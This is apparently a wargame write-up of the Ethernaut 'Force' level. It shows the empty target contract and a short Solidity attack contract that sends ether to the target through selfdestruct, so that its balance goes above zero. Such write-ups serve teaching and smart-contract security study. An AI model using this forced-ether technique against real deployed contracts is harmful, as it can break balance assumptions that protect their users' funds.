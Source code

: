 # Task

The goal of this level is to make the balance of the contract greater than zero.

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```
This contract code appears to be an empty contract with ASCII art comment

![image](https://github.com/user-attachments/assets/7fbb2b9a-332d-447f-a336-16e659af176f)

"The best way to attack a contract is with another contract." hinted to the `selfdestruct` operation

You can read more about it [here](https://www.alchemy.com/overviews/selfdestruct-solidity)

Since, they hinted us to using another contract, this means we'll have to write a contract that that accepts ether as payment and then self destructs.

Below is our attack contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

contract drawFunds {

    constructor(address payable _owner) payable {
        require(msg.value > 0, "Not enough");
        selfdestruct(_owner);
    }

}
```




























